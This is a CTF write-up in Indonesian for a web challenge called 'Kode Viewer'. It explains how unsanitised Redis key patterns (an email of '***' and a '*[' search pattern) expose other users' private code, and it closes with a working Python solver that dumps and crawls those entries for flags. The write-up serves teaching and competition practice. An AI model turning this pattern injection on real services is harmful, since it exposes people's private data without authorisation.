 # Kode Viewer

**Category**: Web  
**Points**: -  
**Difficulty**: -  

## Solution
## **Tahap Penyerangan**

Diberikan sebuah soal berikut,   
![alt text](images/image.png)


Diberikan sebuah *challenge* website dengan fitur untuk menyimpan kode pada *server*. Kode bisa di atur untuk menjadi *public* maupun *private*. Tugas kita adalah untuk mendapatkan kode privat yang akan di-tambahkan oleh problem setter.  
![alt text](images/image-1.png) 
 
Sayangnya, secara default hanya kode *public* dan privat (milik diri sendiri) saja yang bisa dilihat.   
![alt text](images/image-2.png) 


Kode yang rentan terdapat pada dua implementasi redis berikut:  
![alt text](images/image-3.png)

Untuk fungsi **list**, serangan bisa dilakukan dengan melakukan registrasi dengan email bintang. Sehingga nantinya redis akan mencari semua *key* yang memiliki prefix **kode**.

![alt text](images/image-4.png)
   
Seperti dapat dilihat pada gambar diatas, akun dengan email **\*\*\*** bisa melihat kode privat dari user beluga.

Sedangkan untuk fungsi **find**, serangan bisa dilakukan dengan menggunakan karakter ( \***\[** ) sehingga nantinya semua *key* bisa dimunculkan. Karakter ini kami dapatkan dengan cara melakukan *fuzzing*.  
![alt text](images/image-5.png)

Pada saat perlombaan berlangsung, kami hanya menggunakan teknik ke-2 untuk mendapatkan flag dari team lain. Kami tidak menggunakan teknik pertama karena 18/19 team masih rentan terhadap serangan kami.

Berikut merupakan script solver yang kami gunakan:

```python
import sys
import requests
ip = sys.argv[1]


url = f"http://{ip}:10000/auth/register"
r = requests.session()
r.post(url, data={"email": "wrth@wrth123.com", "password": "a"})


url = f"http://{ip}:10000/auth/login"


r.post(url, data={"email": "wrth@wrth123.com", "password": "a"})
res = r.get(f"http://{ip}:10000/kode?pattern=*[")


base = f"http://{ip}:10000"
from bs4 import BeautifulSoup
soup = BeautifulSoup(res.text, "html.parser")
for a in soup.find_all("a"):
   if "auth/logout" in a.get("href"):
       continue
   res = r.get(base+a.get("href"))
   if "GEMASTIK" in res.text:
       print(base+a.get("href"))
       print(res.text)
```